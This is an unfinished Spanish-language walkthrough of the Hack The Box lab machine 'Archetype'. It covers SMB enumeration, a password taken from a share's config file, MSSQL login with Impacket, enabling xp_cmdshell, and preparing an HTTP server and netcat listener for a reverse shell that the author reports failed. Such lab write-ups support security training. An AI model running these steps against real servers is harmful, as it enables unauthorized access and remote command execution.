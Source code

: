 ```yaml
---
file: Archetype
Pwned: none
tipo: Windows, SMB
dificultad: Starting Point
tag: Maquinas-HTB, Pendiente
---
```


# Informe

## Inicio:
Utilizamos Nmap para ver que puertos nos salen y uno importante a resaltar es
```bash
PORT     STATE SERVICE
1433/tcp open  ms-sql-s 
```

> **TASK 1**
> Which TCP port is hosting a database server?:
> asw: **1433**

## SMB client:
usamos
```bash
smbclient -N -L \\\\{TARGET_IP}\\
# -N : No password
# -L : This option allows you to look at what services are available on a server
```
![[Pasted image 20230417005727.png]]

luego vamos a backups porque los demas usuarios no te deja acceder y descargamos el unico archivo existente con 
```batch
$ get prod.dtsConfig
```

> **TASK 2**
> What is the name of the non-Administrative share available over SMB?
> asw: **Backups**


y contiene lo siguiente

![[Pasted image 20230417010033.png]]

> **TASK 3**
> What is the password identified in the file on the SMB share?
> asw: **M3g4c0rp123**

La herramienta **impacket** incluye un valioso script de python llamado mssqlclient.py.

**Impacket** es una colección de clases de Python para trabajar con protocolos de red. Impacket se enfoca en proporcionar acceso programático de bajo nivel a los paquetes y, para algunos protocolos (por ejemplo, SMB1-3 y MSRPC), la implementación del protocolo en sí.

> TASK 4
> What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?
> asw: **mssqlclient.py**

La instalamos del repositorio de [Git](https://github.com/fortra/impacket)

```bash
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip3 install
# OR: sudo python3 setup.py install
# In case you are missing some modules: pip3 install -r requirements.tx
```

```bash
cd impacket/examples/
#ejecutamos
python3 mssqlclient.py -h
```

Viendo las opciones utlizamos -windows-auth para loguearnos con la contraseña que nos encontramos antes
```bash
python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth
```
%%
[Book pentesting mssql microsoft sql server](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)
[Book mssql-sql-injection-cheat-sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
%%

Para poder corroborar que rol tenemos en el sistema utilizamos
```sql
SELECT is_srvrolemember('sysadmin');
```
![[Pasted image 20230418105930.png]]
%% Si nos aparece 1 significa [True]() a la pregunta si somos administradores.%%

> TASK 5
> What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?
> asw: **xp_cmdshell**

En esos cheat sheets nos aparece algo para hacer setup del xp_cmdshell

```sql
EXEC sp_configure 'show advanced options', 1;  
RECONFIGURE;  
EXEC sp_configure 'xp_cmdshell', 1;  
RECONFIGURE;  
```

Probamos con
```sql
EXEC xp_cmdshell 'net user';
```
pero por default está desactivado
![[Pasted image 20230418111334.png]]

asi que nos fijamos el segundo comando para configurar la xp_cmdshell

o poniendo funciona igual que todas las lineas anteriores
```sql
enable_xp_cmdshell
```

al final de los 4 comandos introducimos xp_cdmshell "whoami" para intentar ver si funciona la shell

ahora intentaremos subir un archivo nc64 para poder hacer una shell inversa con cmd.exe

iremos hasta la carpeta donde tiene el binario a subir y luego abrimos un servidor puerto http -p 80 y un netcat de escucha

```bash
sudo python3 -m http.server 80
sudo nc -lvnp 443
```

Para cargar el binario en el sistema de destino, necesitamos encontrar la carpeta adecuada para eso. Usaremos PowerShell para las siguientes tareas, ya que nos brinda muchas más funciones que el símbolo del sistema normal

> TASK 6
> What script can be used in order to search possible paths to escalate privileges on Windows hosts?
> asw: **winPEAS**

Esta ultima parte no se por qué en ninguna ocasión me dejó hacer una conexion http conmigo pareciera que no estaba conectado pero cuando me hacia ping si me respondia, no pude cargar el archivo en la maquina.

**Ya volveré con esta maquina.**
*I'll be back*




